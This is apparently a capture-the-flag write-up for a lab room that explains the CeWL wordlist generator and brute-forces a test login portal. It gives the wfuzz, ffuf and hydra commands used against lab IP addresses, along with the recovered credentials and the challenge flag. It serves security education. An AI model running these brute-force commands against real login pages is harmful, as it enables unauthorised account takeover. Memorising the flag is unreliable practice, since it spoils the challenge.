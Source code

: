 ![Alt text](image.png)

# Baby, it's CeWLd outside
#Brute-Forcing

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## CeWL

CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. `Target-specific wordlists:` CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. `Depth of search:` CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. `Customisable outputs:` CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. `Built-in features:`While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. `Efficiency:` Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. `Integration with other tools:` Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. `Actively maintained:` CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

Customising Commands
- -d: spidering depth 
- -m and -x: minimum and maximum word length
- -a: handling Authentication
- --extension: handling custom extensions
- --offsite: follow external links

## Brute-force the login portal using **_wfuzz_**
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" 
-u http://10.10.132.80/login.php -d "username=FUZZ&password=FUZ2Z"
```

In the command above:<br>
-z file,usernames.txt loads the usernames list.<br>
-z file,passwords.txt uses the password list generated by CeWL.<br>
--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.<br>
-u specifies the target URL.<br>
-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.<br>

```
UserID: isaias
Password: Happiness
Flag: THM{m3rrY4nt4rct1crAft$}
```

## Other Methods:

### fuff
```
ffuf -s -w usernames.txt:USER -w passwords.txt:PASS -u http://10.10.106.165/loqin.php -d "username=USER&password-PASS" 
-H "Content-Type: application/x-www-form-urlencoded" -fr "Please enter the correct credentials"
```

### hydra
```
hydra -L usernames.txt -P passwords.txt http-post-form://10.10.106.165/login.php:"username=^USER^&password=^PASS^"
:"Please enter the correct credentials"
```

### Turbo Intruder

## Conclusion
AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.

Happy to help McHoneyBell

Signing off,<br>
A93N7_V1KRAM